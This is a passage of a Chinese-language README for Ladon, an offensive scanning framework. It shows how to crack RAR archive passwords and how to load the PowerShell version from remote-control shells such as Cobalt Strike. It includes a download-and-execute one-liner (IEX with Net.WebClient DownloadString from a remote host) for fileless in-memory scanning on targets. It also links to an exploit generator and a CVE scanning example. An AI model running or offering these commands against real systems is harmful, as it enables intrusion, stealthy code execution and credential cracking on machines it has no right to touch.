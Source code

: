 ##### 文件密码
因Rar压缩包只需一个密码,故只需pass.txt,注意中文密码需将txt保存为Ansi编码<br>
命令: Ladon test.rar RarScan<br>

## PowerShell
PowerLadon完美兼容win7-win10 PowerShell，对于不支持.net程序插件化的远控，可使用<br>
PowerShell版,也可CMD命令行下远程加载内存实现无文件扫描，模块加载后用法和EXE一致。<br>

#### 0x001 PowerShell本地加载<br>
适用于支持PowerShell交互远控或Shell，如Cobalt Strike
```Bash
> powershell 
> Import-Module .\Ladon.ps1
> Ladon OnlinePC
```
<img src=https://k8gege.github.io/k8img/Ladon/PowerLadon.gif></img>

#### 0x002 Cmd本地加载
适用于还没跟上时代的远控或Shell只支持CMD交互
```bash
> powershell Import-Module .\Ladon.ps1;Ladon OnlinePC
```
<img src=https://k8gege.github.io/k8img/Ladon/ps/CmdPSLadon.gif></img>

#### 0x003 Cmd远程加载
适用于还没跟上时代的远控或Shell只支持CMD交互
```bash
> powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.5:800/Ladon.ps1'); Ladon OnlinePC"
```
<img src=https://k8gege.github.io/k8img/Ladon/ps/CmdPSRemoteLadon.gif></img>

### 高级用法
Ladon最初的设计就是一款扫描框架，为了方便才内置功能<br>
毕竟需要使用一个功能就得在目标多上传一个文件是顶麻烦的<br>
不像MSF框架和模块多大都无所谓，因为你只是在本地使用<br>
为了让大家都可以自定义模块，Ladon插件支持多种编程语言<br>
最菜可通过INI配置插件，了解HTTP可通过EXP生成器生成POC<br>
懂得编程可使用C#、Delphi、VC编写DLL，PowerShell脚本<br>

#### 0x001 Exp生成器
EXP生成器教程: https://github.com/k8gege/Ladon/wiki/LadonExp-Usage<br>
实战例子: https://github.com/k8gege/Ladon/wiki/%E6%BC%8F%E6%B4%9E%E6%89%AB%E6%8F%8F-CVE-2018-2894

#### 0x002 自定义模块教程
自定义模块教程: https://github.com/k8gege/Ladon/wiki/Ladon-Diy-Moudle<br>

#### 0x003 插件例子源码
https://github.com/k8gege/Ladon/raw/master/Moudle_Demo.rar

### 注本页面的教程并不是很全，详情请看WIKI,我会慢慢完善

#### [Top](#readme)
